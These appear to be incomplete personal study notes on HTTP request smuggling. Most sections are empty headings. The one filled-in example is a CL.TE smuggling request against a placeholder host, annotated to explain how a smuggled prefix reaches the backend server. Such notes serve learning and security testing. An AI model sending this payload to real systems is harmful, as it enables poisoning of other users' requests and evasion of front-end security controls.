 # HTTP Request Smuggling

## Types:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE
3. HTTP/2

## How to find each type:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE

## How to exploit each type:

1. HTTP/1.1
    1. CL.TE
       ```http
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 13               --> Content length is 13 which includes smuggled
       Transfer-Encoding: chunked    

       0                               --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend

       SMUGGLED               
       ```
    3. TE.CL
    4. TE.TE

## Other important notes:
- HTTP/1.1 allows for content-length transfer-encoding
- Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.
- HTTP/2 is only vulnerable if the backend supports HTTP/1.1
- You need to manually switch the protocol in repeater
